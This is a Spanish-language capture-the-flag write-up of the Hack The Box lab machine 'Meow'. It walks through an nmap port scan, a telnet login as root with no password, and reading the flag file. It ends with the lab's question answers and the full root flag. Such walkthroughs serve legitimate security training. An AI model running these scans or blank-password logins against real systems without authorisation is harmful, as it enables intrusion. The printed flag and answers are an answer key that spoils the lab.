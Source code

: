 ```yaml
---
layout: single
title: <span class="htb">Meow - <span class="starting_point">Starting point</span> - Hack The Box</span>
excerpt: "En este post vamos a comenzar con las máquinas del starting point del tier 0, la primera es Meow y será la elegida para este primer write up.
Me voy a centrar en el proceso de explotación ya que exiten diferentes preguntas las cuales no aportan elementos de valor, en el caso de que sean indispensables
para llevar acabo la explotación citaré los recursos en el proceso."
date: 2022-07-06
classes: wide
header:
  teaser: /assets/images/Meow/Descripcion_meow.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.png
categories:
  - Hack The Box
  - Starting point
  - Tier 0
tags: 
  - Telnet
  - Nmap
---
```


## DESCRIPCION

En este post vamos a comenzar con las máquinas del starting point del tier 0, la primera es Meow y será la elegida para este primer write up.
Me voy a centrar en el proceso de explotación ya que exiten diferentes preguntas las cuales no aportan elementos de valor, en el caso de que sean indispensables
para llevar acabo la explotación citaré los recursos en el proceso.

## INDICE

- [Escaneo de puertos](#escaneo-de-puertos)
- [Conexión por telnet](#conexion-por-telnet)
- [Respuestas HTB](#respuestas)

## ESCANEO DE PUERTOS

Vamos a lanzar un escaneo básico para encontrar los puertos abiertos en la máquina.

```zsh
nmap --open -p- 10.129.74.180 -T5 -oG Puertos
Host: 10.129.74.180 ()  Status: Up
Host: 10.129.74.180 ()  Ports: 23/open/tcp//telnet///

```

Podemos ver que el protocolo telnet esta abierto, lanzaremos los scripts predeterminados de nmap al puerto 23.

```zsh
nmap -sCV -p 23 -oN Objetivos 10.129.1.17
Nmap scan report for 10.129.1.17
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Por lo que se puede ver es una máquina linux, pero no obtenemos demasiada información, al no encontrar más puertos por los que intentar comprometer el host, podemos proceder a logueranos
por telnet.

## CONEXION POR TELNET

Intentamos conectarnos con `Usuario:root`.

```zsh
❯ telnet 10.129.1.17
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 06 Jul 2022 01:03:13 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.1.17
  IPv6 address for eth0: dead:beef::250:56ff:fe96:d4ec

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# 
```

Por un error de configuración el usuario root no tiene contraseña dando acceso a la máquina de forma instantánea. Siendo root solo nos queda buscar la flag.

```zsh
root@Meow:~# pwd
/root
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40axxxxxxxxxxxxxxxxxxxxxxxxxxxx

```
Hemos explotado la primera máquina del starting point tier 0 con èxito. 

## RESPUESTAS

### Pregunta 1

What does the acronym VM stand for?

`Virtual Machine`

### Pregunta 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

`terminal`

### Pregunta 3

What service do we use to form our VPN connection into HTB labs?

`openvpn`

### Pregunta 4

What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?

`tun`

### Pregunta 5

What tool do we use to test our connection to the target with an ICMP echo request?

`ping`


### Pregunta 6

What is the name of the most common tool for finding open ports on a target?

`nmap`

### Pregunta 7

What service do we identify on port 23/tcp during our scans?

`telnet`

### Pregunta 8

What username is able to log into the target over telnet with a blank password?

`root`


### Bandera

Submit root flag

`b40abdfe23665f766f9c61ecba8a4c19`


